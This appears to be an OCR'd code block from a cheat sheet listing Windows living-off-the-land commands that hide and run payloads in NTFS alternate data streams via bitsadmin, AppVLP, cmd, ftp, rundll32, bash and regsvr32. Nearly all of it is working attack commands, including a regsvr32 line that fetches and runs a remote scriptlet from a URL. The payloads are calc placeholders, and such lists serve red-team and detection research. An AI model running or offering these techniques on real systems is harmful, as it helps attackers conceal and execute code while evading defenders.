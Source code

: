 ```
bitsadmin /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULL
bitsadmin /RESUME myfile

* AppVLP.exe
AppVLP.exe c:\windows\tracing\test.txt:ha.exe

* Cmd.exe
cmd.exe - < fakefile.doc:reg32.bat
https://twitter.com/yeyint_mth/status/1143824979139579904

* Ftp.exe
ftp -s:fakefile.txt:aaaa.txt
https://github.com/sailay1996/misc-bin/blob/master/ads.md

* ieframe.dll , shdocvw.dll (ads)
echo [internetshortcut] > fake.txt:test.txt && echo url=C:\windows\system32\calc.exe >> fake.txt:test.txt rundll32.exe ieframe.dll,OpenURL C:\temp\ads\fake.txt:test.txt
rundll32.exe shdocvw.dll,OpenURL C:\temp\ads\fake.txt:test.txt
https://github.com/sailay1996/misc-bin/blob/master/ads.md

* bash.exe
echo calc > fakefile.txt:payload.sh && bash < fakefile.txt:payload.sh
bash.exe -c $(fakefile.txt:payload.sh)
https://github.com/sailay1996/misc-bin/blob/master/ads.md

* Regsvr32
type c:\Windows\System32\scrobj.dll > Textfile.txt:LoveADS
regsvr32 /s /u /i:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct Textfile.txt:LoveADS
```